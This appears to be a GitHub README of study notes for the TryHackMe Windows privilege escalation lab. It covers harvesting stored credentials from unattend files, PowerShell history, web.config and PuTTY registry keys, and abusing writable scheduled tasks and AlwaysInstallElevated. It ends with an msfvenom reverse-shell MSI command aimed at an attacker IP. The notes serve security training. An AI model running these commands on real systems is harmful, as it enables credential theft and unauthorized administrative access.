 # Windows-Privilege-Escalation
THM Windows Privilege Escalation Lab



### Unattended Windows Install
Admins sometimes use Windows Deployment Services, which allows for one system image to be deployed to several hosts.
These setups require the admin account for initial setup, which might be stored in the machine in these following locations:

    C:\Unattend.xml
    
    C:\Windows\Panther\Unattend.xml
    
    C:\Windows\Panther\Unattend\Unattend.xml
    
    C:\Windows\system32\sysprep.inf
    
    C:\Windows\system32\sysprep\sysprep.xml

These may be in the format like:

    <Credentials>
        <Username>Administrator</Username>
        <Domain>thm.local</Domain>
        <Password>MyPassword123</Password>
    </Credentials>


### Powershell History

Anytime a user runs a command using Powershell, it is stored in a file. This helps with repeating commands, but if a user runs a command that includes a password directly in the command, it can later be retrieved by using this command in cmd:

    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

That command only works for cmd, to run from Powershell replace `%userprofile` with `$Env:userprofile`



### Saved Windows Credentials

Windows let's you use the credentials of other users. This also allows us to save credentials to the system. This command will list saved credentials:
    
    cmdkey /list

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option:

    runas /savecred /user:admin cmd.exe

### IIS Configuration (Internet Information Services)

The IIS is the default web server on Windows. The config for websites on IIS is stored in `web.config`, which can store passwords for databased or configured authentication mechanisms. 
Depending on the version, `web.config` can be found in one of these locations:
    1. `C:\inetpub\wwwroot\web.config`
    2. `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

A quick method to find connection stringson the file:

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

### Retrieve Credentials from PuTTY

PuTTY is an SSH client found commonly on Windows machines. Users can store sessions which includes IP, user, and other configurations. 
PuTTY does NOT allow users to store SSH passwords, but they can store proxy configurations that store cleartext credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

**Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.**


Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.



### Scheduled Tasks
Scheduled tasks can be listed from the command line using `schtasks` without options. To retrieve detailed info about a service, use a command like:

    schtasks /query /tn {task} /fo list /v

You will get lots of info about the task, but what we want to look for is the **Task to Run** parameter indicating what gets executed by the scheduled task, and the **Run As User** parameter, which shows the user that will be used to execut the task.

If our current user can modify or overwrite the **Task to Run** executable, we can control what gets executed by the **task user**, resulting in simple privesc.

To check the permissions on the executable: `icacls`:

    icacls c:\tasks\schtask.bat
    :\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)

As shown in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. Meaning we can modify the `.bat` file and insert any payload we like.
    

### AlwaysInstallElevated
Windows installer files `.msi` are used to install apps on the system. They usually run with the privilege level of the user that starts it. These can be configured to run with higher privileges from any user account (even unprivileged). This could potentially allow us to generate a malicious **MSI** file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line:

    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

To exploit this vuln, both should be set. Otherwise, exploitation is not possible. If these are set, you can generate a malicious `.msi` using `msfvenom` like so:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

In this case we would use the Metasploit handler, and you can run the installer like:

    C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
